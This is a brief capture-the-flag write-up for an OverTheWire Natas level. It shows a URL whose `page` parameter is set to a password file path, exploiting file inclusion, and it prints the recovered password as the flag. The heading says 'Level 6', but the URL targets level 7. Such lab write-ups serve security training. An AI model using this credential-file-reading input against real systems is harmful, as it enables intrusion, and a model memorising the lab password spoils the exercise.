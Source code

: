 # Natas Level 6 Solution

here we can see it prints the content of the file that the param `page` gets. so, let's give him the path to the password which is `/etc/natas_webpass/natas8`
```
http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
```

**Flag:** ***`xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q`*** 